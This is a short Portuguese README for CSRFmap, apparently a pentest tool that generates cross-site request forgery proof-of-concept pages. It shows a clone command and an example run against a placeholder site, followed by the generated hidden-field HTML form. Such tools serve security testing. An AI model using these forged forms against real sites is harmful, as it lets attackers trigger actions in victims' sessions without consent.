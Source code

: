 # Instalação

CSRFmap requer **python3** e para baixá-lo só usar:

```sh
git clone https://github.com/joaoviictorti/CSRFmap
```

# Executando CSRFmap

```console
python3 CSRFmap.py -a "http://exemplo.com" -m post -p form_interaction -n username password token -v victor password 132423542

  ____________  ____              
 / ___/ __/ _ \/ __/_ _  ___ ____ 
/ /___\ \/ , _/ _//  ' \/ _ `/ _ \
\___/___/_/|_/_/ /_/_/_/\_,_/ .__/
                           /_/ 
                           Autor: joaovictorti
                           version: 1.1
                                               

csrf.html:
<!DOCTYPE html>
<html lang="pt-br">
<body>
	<form action="http://exemplo.com" method="post">
	<input name="username" value="victor" type="hidden"/>
	<input name="password" value="password" type="hidden"/>
	<input name="token" value="132423542" type="hidden"/>
	<input type="submit">Enviar</input>
	</form>
</body>
</html>

```


<img width=100% src="https://capsule-render.vercel.app/api?type=waving&color=0000FF&height=120&section=footer"/>
